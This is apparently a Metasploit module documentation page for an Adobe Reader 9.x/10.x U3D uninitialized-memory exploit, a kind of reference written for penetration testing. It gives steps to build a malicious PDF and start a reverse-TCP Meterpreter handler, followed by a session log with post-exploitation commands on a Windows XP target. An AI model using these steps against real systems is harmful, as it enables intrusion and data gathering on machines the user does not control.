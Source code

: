 ## Vulnerable Application

This module exploits a vulnerability in the U3D handling within versions 9.x through 9.4.6 and 10 through to 10.1.1 of Adobe Reader. The vulnerability is due to the use of uninitialized memory. Arbitrary code execution is achieved by embedding specially crafted U3D data into a PDF document. A heap spray via JavaScript is used in order to ensure that the memory used by the invalid pointer issue is controlled.

Link to vulnerable software (OldVersion)[http://www.oldversion.com/windows/download/acrobat-reader-9-4-0]

## Verification Steps

   1. Install application on the target machine
   2. Start msfconsole
   3. Do: `use exploit/windows/fileformat/adobe_reader_u3d`
   4. Do: `set LHOST [IP]`
   5. Do: `exploit`
   6. Do: `use [exploit/multi/handler]`
   7. Do: `set payload [windows/meterpreter/reverse_tcp]`
   8. Do: `set LHOST [IP]`
   9. Do: `exploit`
   10. Do: `Open PDF on target machine with vulnerable software`

## Scenarios

### A run on Adobe Reader 9.4.0 and Windows XP (5.1 Build 2600, Service Pack 3)

  ```
  msf > use exploit/windows/fileformat/adobe_reader_u3d
  msf exploit(windows/fileformat/adobe_reader_u3d) > set FILENAME myFile.pdf
    FILENAME => myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf exploit(windows/fileformat/adobe_reader_u3d) > exploit

    [*] Creating 'myFile.pdf' file...
    [+] myFile.pdf stored at /root/.msf4/local/myFile.pdf
  msf exploit(windows/fileformat/adobe_reader_u3d) > use exploit/multi/handler
  msf exploit(multi/handler) > set LHOST 192.168.1.3
    LHOST => 192.168.1.3
  msf5 exploit(multi/handler) > exploit

    [*] Started reverse TCP handler on 192.168.1.3:4444
    [*] Sending stage (180291 bytes) to 192.168.1.5
    [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.5:1103) at 2019-12-05 18:01:07 -0700
  meterpreter > sysinfo
    Computer        : COMPUTER_1
    OS              : Windows XP (5.1 Build 2600, Service Pack 3).
    Architecture    : x86
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: COMPUTER_1\USER
  meterpreter > run post/windows/gather/enum_applications

    [*] Enumerating applications installed on COMPUTER_1

    Installed Applications
    ======================

    Name                Version
    ----                -------
    Adobe Reader 9.4.0  9.4.0


    [+] Results stored in: /root/.msf4/loot/20191205180436_default_192.168.1.5_host.application_540854.txt
  ```

